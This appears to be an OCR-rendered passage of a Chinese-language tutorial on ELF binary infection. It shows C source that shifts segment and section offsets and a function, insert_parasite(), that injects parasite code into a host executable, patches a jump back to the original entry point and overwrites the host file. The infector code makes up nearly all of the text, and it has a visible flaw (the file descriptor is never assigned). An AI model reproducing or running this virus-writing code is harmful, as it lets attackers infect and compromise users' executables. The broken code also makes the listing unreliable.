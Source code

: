 ```sh
                                phdr[i].p_filesz += parasite_len;
                                phdr[i].p_memsz += parasite_len;

                                for (j = i + 1; j < ehdr->e_phnum; j++)
                                        if (phdr[j].p_offset > phdr[i].p_offset + o_text_filesz)
                                                phdr[j].p_offset += PAGE_SIZE;

                                }
                                break;
                        }
        }
        for (i = 0; i < ehdr->e_shnum; i++) {
                if (shdr[i].sh_addr > parasite_vaddr)
                        shdr[i].sh_offset += PAGE_SIZE;
                else
                if (shdr[i].sh_addr + shdr[i].sh_size == parasite_vaddr)
                        shdr[i].sh_size += parasite_len;
        }

    /*
      * NOTE: Read insert_parasite() src code next
         */
        insert_parasite(host, parasite_len, host_len,
                        base, end_of_text, parasite, JMP_PATCH_OFFSET);
        return 0;
}
```

#### 插入寄生代码

```sh
#define TMP "/tmp/.infected"

void insert_parasite(char *hosts_name, size_t psize, size_t hsize, uint8_t *mem, size_t end_of_text, uint8_t *parasite, uint32_t jmp_code_offset)
{
/* note: jmp_code_offset contains the
* offset into the payload shellcode that
* has the branch instruction to patch
* with the original offset so control
* flow can be transferred back to the
* host.
*/
        int ofd;
        unsigned int c;
        int i, t = 0;
        open (TMP, O_CREAT | O_WRONLY | O_TRUNC, S_IRUSR|S_IXUSR|S_IWUSR);  
        write (ofd, mem, end_of_text);
        *(uint32_t *) &parasite[jmp_code_offset] = old_e_entry;
        write (ofd, parasite, psize);
        lseek (ofd, PAGE_SIZE - psize, SEEK_CUR);
        mem += end_of_text;
        unsigned int sum = end_of_text + PAGE_SIZE;
        unsigned int last_chunk = hsize - end_of_text;
        write (ofd, mem, last_chunk);
        rename (TMP, hosts_name);
        close (ofd);
}
```

